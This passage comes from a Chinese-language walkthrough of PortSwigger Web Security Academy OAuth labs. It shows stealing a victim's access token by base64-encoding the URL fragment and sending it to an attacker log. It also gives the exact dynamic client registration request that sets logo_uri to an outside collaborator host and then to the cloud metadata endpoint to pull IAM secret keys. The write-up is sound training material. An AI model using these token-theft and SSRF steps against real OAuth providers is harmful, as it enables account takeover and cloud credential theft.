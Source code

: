 将`window.location.href`进行base64编码之后再传给log，这样就可以避免#后面的东西没了。

发送给受害者。

然后将获得的base64编码的东西解码，得到了token。

```
https://ac521fd91efcb21480651ab600a600df.web-security-academy.net/post/comment/comment-form#access_token=tJA9pGyTVtmRNLrHA8qpPYWDchXjaeN6tAX42yQ96Us&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

然后和上面一道题一样，直接更改`GET /me`的报文就好了。

## 6. SSRF via OpenID dynamic client registration

> To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

> You may also be able to access the configuration file from the standard endpoint `/.well-known/openid-configuration`

在认证的Host那里，访问`/.well-known/openid-configuration`。

可以看到：

```json
{
    ...
    "issuer":"https://acc21f0f1f7eef0980a66660021300c1.web-security-academy.net",
    "jwks_uri":"https://acc21f0f1f7eef0980a66660021300c1.web-security-academy.net/jwks",
    "registration_endpoint":"https://acc21f0f1f7eef0980a66660021300c1.web-security-academy.net/reg",
    "response_modes_supported":["form_post","fragment","query"]
	...
}
```

其中`"registration_endpoint":"https://acc21f0f1f7eef0980a66660021300c1.web-security-academy.net/reg",`

然后向OAuth服务注册你自己的客户端应用程序，至少提供一个redirect_uris数组，其中包含一个任意的回调URI的白名单。而且在请求认证的时候，我们访问了一个logo：`/client/fke8hu1ziy5r6ic9pri2u/logo`，而这个logo是服务器去访问一个uri（这里如果可以改uri则会造成SSRF），然后再返回到页面上，而我们注册的时候是可以定义logo的uri的。

```http
POST /reg HTTP/1.1
Host: acc21f0f1f7eef0980a66660021300c1.web-security-academy.net
Content-Type: application/json

{
  "redirect_uris" : [
    "https://xxxx"
  ],
  "logo_uri": "https://dr8um8c3tun2k0n7bb59warfz65wtl.burpcollaborator.net"
}
```

发送出去会获得一个`"client_id":"2oEksGz1vnQ-L64K3Fz_l"`，然后访问logo。

```
/client/2oEksGz1vnQ-L64K3Fz_l/logo
```

然后发现确实访问了burpcollaborator。

将uri改成`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`。

然后尝试访问。

访问成功，然后提交SecretAccessKey就可以了。